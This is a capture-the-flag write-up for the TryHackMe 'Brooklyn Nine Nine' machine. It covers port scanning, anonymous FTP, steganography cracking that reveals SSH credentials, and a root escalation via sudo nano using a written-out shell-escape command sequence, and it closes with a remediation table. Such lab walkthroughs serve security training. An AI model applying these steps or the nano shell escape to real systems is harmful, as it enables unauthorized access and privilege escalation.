






# Brooklyn Nine Nine — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.66.142.215 | **Attacker IP:** 192.168.131.193

## Machine info



## Summary

**Brooklyn Nine Nine** is an easy TryHackMe room built around a Brooklyn Nine-Nine themed web server. Anonymous FTP access exposed an internal note from Amy warning Jake that his password was too weak, without revealing it directly. The web server on port 80 displayed a themed banner, and its page source carried an HTML comment hinting at steganography. The background image referenced by the page, `brooklyn99.jpg`, concealed a passphrase-protected file that `stegseek` cracked against `rockyou.txt`, revealing a note with valid SSH credentials for `holt`. Those credentials granted a low-privilege shell, and a passwordless `sudo` rule on `/bin/nano` was then used to escalate directly to root.

**Attack chain:** FTP Anonymous Login → Leaked Note (note_to_jake.txt) → Web Enumeration (HTML Comment Hint) → Steganography (brooklyn99.jpg via Stegseek) → Leaked SSH Credentials → Initial Access → sudo nano (GTFOBins) → Root

## 1. Reconnaissance

A full TCP port scan found three open ports: FTP with anonymous login allowed (vsftpd 3.0.3, exposing a file named `note_to_jake.txt`), SSH (OpenSSH 7.6p1), and an Apache web server with no page title set:

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.66.142.215
...
Nmap scan report for 10.66.142.215
Host is up, received echo-reply ttl 62 (0.051s latency).
Scanned at 2026-10-25 09:52:50 EDT for 27s
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 62 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.131.193
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQjh/Ae6uYU+t7FWTpPoux5Pjv9zvlOLEMlU36hmSn4vD2pYTeHDbzv7ww75UaUzPtsC8kM1EPbMQn1BUCvTNkIxQ34zmw5FatZWNR8/De/u/9fXzHh4MFg74S3K3uQzZaY7XBaDgmU6W0KEmLtKQPcueUomeYkqpL78o5+NjrGO3HwqAH2ED1Zadm5YFEvA0STasLrs7i+qn1G9o4ZHhWi8SJXlIJ6f6O1ea/VqyRJZG1KgbxQFU+zYlIddXpub93zdyMEpwaSIP2P7UTwYR26WI2cqF5r4PQfjAMGkG1mMsOi6v7xCrq/5RlF9ZVJ9nwq349ngG/KTkHtcOJnvXz
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBItJ0sW5hVmiYQ8U3mXta5DX2zOeGJ6WTop8FCSbN1UIeV/9jhAQIiVENAW41IfiBYNj8Bm+WcSDKLaE8PipqPI=
|   256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP2hV8Nm+RfR/f2KZ0Ub/OcSrqfY1g4qwsz16zhXIpqk
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. FTP Enumeration — Leaked Note

Anonymous FTP login was accepted, as flagged by nmap:

```
ftp 10.66.142.215
Connected to 10.66.142.215.
220 (vsFTPd 3.0.3)
Name (10.66.142.215:kaskamilla): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

The directory reached after login held a single file, which was downloaded:

```
ftp> ls
229 Entering Extended Passive Mode (|||46377|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
229 Entering Extended Passive Mode (|||54936|)
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 00:00 (2.27 KiB/s)
```

The note hints at a weak password belonging to Jake:

```
cat  note_to_jake.txt
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

## 3. Web Enumeration — Steganography Hint

Browsing to the web server on port 80 displayed the following page:



The page source included an HTML comment pointing toward steganography:

```
<!DOCTYPE html>
<html>
<head>
<meta name="viewport" content="width=device-width, initial-scale=1">
<style>
body, html {
  height: 100%;
  margin: 0;
}

.bg {
  /* The image used */
  background-image: url("brooklyn99.jpg");

  /* Full height */
  height: 100%; 

  /* Center and scale the image nicely */
  background-position: center;
  background-repeat: no-repeat;
  background-size: cover;
}
</style>
</head>
<body>

<div class="bg"></div>

<p>This example creates a full page background image. Try to resize the browser window to see how it always will cover the full screen (when scrolled to top), and that it scales nicely on all screen sizes.</p>
<!-- Have you ever heard of steganography? -->
</body>
</html>
```

## 4. Steganography — Cracking brooklyn99.jpg

The background image used by the page, `brooklyn99.jpg`, was downloaded:

```
curl -O http://10.66.142.215/brooklyn99.jpg
```

It was then cracked with `stegseek` against `rockyou.txt`:

```
stegseek --crack brooklyn99.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "admin"
[i] Original filename: "note.txt".
[i] Extracting to "brooklyn99.jpg.out".
```

The extracted file held valid SSH credentials for `holt`:

```
cat brooklyn99.jpg.out
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

## 5. SSH Access — User Flag

Those credentials logged in directly over SSH:





## 6. Privilege Escalation — sudo nano to Root

`sudo -l` showed `holt` could run `nano` as root with no password:

```
sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

That grant leads directly to a root shell:

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```





## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Anonymous FTP enabled, leaking an internal note hinting at a weak password | Disable anonymous FTP access; never leave internal notes or credential hints on an externally reachable share |
| A passphrase-protected image (`brooklyn99.jpg`) hosted on the web server concealed a user's SSH credentials via steganography, and the stego passphrase was crackable with a standard wordlist | Never embed credentials in files reachable by unauthenticated users, steganography included; enforce strong, non-dictionary passphrases |
| `holt` was granted a passwordless sudo rule on `/bin/nano`, a GTFOBins-listed binary | Remove unnecessary sudo grants on editors/interpreters; restrict sudo to the minimum commands required |
